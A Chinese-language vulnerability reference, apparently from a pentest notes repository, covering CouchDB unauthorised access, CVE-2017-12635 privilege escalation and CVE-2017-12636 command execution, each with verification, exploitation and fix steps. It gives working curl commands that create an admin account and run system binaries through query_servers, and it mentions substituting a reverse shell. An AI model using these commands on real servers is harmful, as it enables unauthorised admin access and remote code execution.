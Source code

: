 # couchdb
默认使用5984端口。如使用ssl协议，则监听6984端口。CouchDb是一个存储Json文档的数据库。CouchDB是一个完全包含Web的数据库。使用JSON文档存储数据。使用Web浏览器通过HTTP访问您的文档。
## couchdb未授权访问漏洞&弱口令漏洞
### 漏洞说明
HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。在官方配置文档中对HTTP Server的配置有WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。
### 涉及范围
全版本
### 验证方法
验证脚本: poc_couchdb_unauth.py
msfconsole:auxiliary/scanner/couchdb/couchdb_login
浏览器: `http://host:port/_config/` `http://host:port/_utils/`

### 利用方法
msfconsole:exploit/linux/couchdb/couchdb_unauth_exec
pocsuite: poc_couchdb_unauth.py --attack
other: 一键利用

### 修复方式
1. 指定CouchDB绑定的IP （需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 文件中找到 `bind_address = 0.0.0.0`，把 0.0.0.0 修改为 127.0.0.1 ，然后保存.(修改后只有本机才能访问CouchDB)
2. 设置访问密码（需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 中找到`[admins]`字段配置密码。
3. 设置WWW-Authenticate，强制认证。

## couchdb垂直越权漏洞 CVE-2017-12635
### 漏洞说明
CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。可以被利用于，非管理员用户赋予自身管理员身份权限。
### 涉及范围
小于 1.7.0 以及 小于 2.1.1
### 验证方法
验证脚本: poc_couchdb_outrange.py
手工验证: 见利用方法bash

### 利用方法
```bash
# 新建用户
curl -X PUT -d '{"type":"user","name":"oops","roles":["_admin"],"roles":[],"password":"123456"}' http://host:port/_users/org.couchdb.user:oops -H "Content-Type:application/json"
# 访问http://host:port/_utils/ 使用oops:123456即可登录
```

### 修复方式
1. 所有用户都应升级到CouchDB 1.7.1或 2.1.1。
2. 配置HTTP API配置参数，针对敏感配置信息加入黑名单。

## couchdb命令执行漏洞 CVE-2017-12636
### 漏洞说明
而CVE-2017-12636漏洞在于CouchDB自身的设计问题，CouchDB允许外部通过自身HTTP(S) API对配置文件进行更改，一些配置选项包括操作系统级二进制文件的路径，随后会由CouchDB启动。从这里获取shell通常很简单，因为CouchDB其中一个“query_servers“选项，可以自定义二进制文件加载路径，这个功能基本上只是一个包装execv。
### 涉及范围
小于 1.7.0 以及 小于 2.1.1

### 验证方法
该漏洞利用需要获取后台管理员权限的账号
```bash
curl -X PUT 'http://localhost:5984/_config/query_servers/cmd' -d '"/sbin/ifconfig >/tmp/6668"'
curl -X PUT 'http:// localhost:5984/vultest'
curl -X PUT 'http:// localhost:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http:// localhost:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```
以上poc会在目标服务器/tmp/6668文件中写入/sbin/ifconfig的执行结果，可以将`/sbin/ifconfig`替换为反弹shell命令进行验证


### 利用方法
other_couchdb_unauth.py

### 修复方式
1. 所有用户都应升级到CouchDB 1.7.1或 2.1.1。
2. 配置HTTP API配置参数，针对敏感配置信息加入黑名单。
